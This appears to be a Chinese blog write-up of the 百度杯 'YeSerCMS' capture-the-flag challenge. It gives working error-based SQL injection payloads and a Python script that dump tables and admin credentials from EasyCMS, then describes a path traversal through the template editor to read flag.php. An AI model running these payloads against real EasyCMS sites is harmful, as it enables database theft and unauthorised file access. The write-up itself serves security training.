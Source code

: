 ```yaml
---
title: 百度杯 YeSerCMS
date: 2020-05-31 16:50:55
updated: 2020-05-31 16:50:55
categories: Write up
---
```




hint：新的CMS系统，帮忙测测是否有漏洞。
​           tips:flag在网站根目录下的flag.php中   <!--more-->

# CMS

内容管理系统（通常缩写为CMS）是帮助用户在网站上创建，管理和修改内容而无需专业技术知识的软件。内容管理系统作为一种工具，可以帮助构建网站，而无需从头开始编写所有代码

## 常见判断网站cms方法

> 1   .robots.txt文件  
> 2   .通过版权信息进行查询 (比如网站底部版权信息)
> 3  .通过查看网页源码的方式
> 4  .CMS扫描器
> 5  .cms指纹识别

cms会存在漏洞，百度搜索本题的YeSerCMS没有结果，猜测改名了

在本题中通过逛网站`文档下载`一栏，随便点个文档进行下载，在网页底部的`我要评论`处可看到为`EasyCMS`

> EasyCMS是一套使用PHP语言编写的、可扩展的轻量级开源内容管理系统（CMS）。
> EasyCMS 1.5版本中的App/Modules/Admin/Tpl/default/Public/dwz/uploadify/scripts/uploadify.swf文件存在跨站脚本漏洞。远程攻击者可借助‘uploadifyID’或‘movieName’参数利用该漏洞注入任意的
> Web脚本或HTML。

百度搜下easycms的漏洞，本题可利用<a href='https://www.cnblogs.com/yangxiaodi/p/6963624.html' target="_blank">无限制报错注入</a>进行

爆数据库：

```
url: /celive/live/header.php
post：

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

```

爆表：

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>
```

这里可以看到返回的数据是`XPATH syntax error: '[yesercms_a_attachment,yesercms_'`

很明显表没有全部列出来，这里可以修改参数`1`或者py脚本解决

py脚本如下：

```
import requests
url= 'http://340d45344c5345b7837232f683eac21005849e95f56547e6.changame.ichunqiu.com/celive/live/header.php'
for i in range(1,999,31):     #这里的意思是从1开始，隔31各后再取，即i的第二个值为32，至于这里为什么是32，从Post和响应数据可以看出来
    postdata = {'xajax': 'Postdata', 'xajaxargs[0]': "<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),%s,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>" %str(i)}
    r = requests.post(url,data=postdata)
    print(r.content[22:53])

```

有个yesercms_user表，尝试从这个表爆字段：

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

```

得到[admin|ff512d4240cbbdeafada40467

猜测密码为MD5加密，但是位数不够，将1，32 改为 33，64

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),33,64),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

```

得到ccbe61

拼接md5解密得Yeser231

因此账号为admin,密码为Yeser231



然后下一步就是重点了，怎么得到flag.php中的内容

我们可以进入模板一栏的当前模板编辑，对服务器文件进行编辑

因此使用burpsuite抓编辑的包，尝试修改id参数来读取flag.php，这里不清楚flag.php在几级目录可以依次尝试flag.php,../flag.php,../../flag.php，在../../flag.php时成功拿到flag